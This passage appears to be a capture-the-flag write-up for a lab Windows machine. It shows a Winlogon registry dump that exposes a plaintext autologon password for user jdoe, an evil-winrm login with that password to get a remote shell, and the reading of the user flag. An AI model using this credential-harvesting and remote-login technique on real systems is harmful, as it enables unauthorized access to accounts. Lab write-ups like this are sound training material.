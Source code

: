 ```bash
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    ShellAppRuntime    REG_SZ    ShellAppRuntime.exe
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x1ab910533
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    7y4Z4^*y9Zzj
    AutoLogonSID    REG_SZ    S-1-5-21-916175351-3772503854-3498620144-1103
    LastUsedUsername    REG_SZ    jdoe

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

## Shell as jdoe
- I am able to log in via `evil-winrm` with these credentials, gaining a shell as `jdoe`.

```bash
$ evil-winrm -i 10.10.11.250 -u jdoe -p '7y4Z4^*y9Zzj'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents> 
```

#### User.txt

- Got the user.txt

```bash
*Evil-WinRM* PS C:\Users\jdoe> cd Desktop
*Evil-WinRM* PS C:\Users\jdoe\Desktop> ls
Directory: C:\Users\jdoe\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/1/2024   3:23 AM             34 user.txt

Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
c44ed46*************************
```
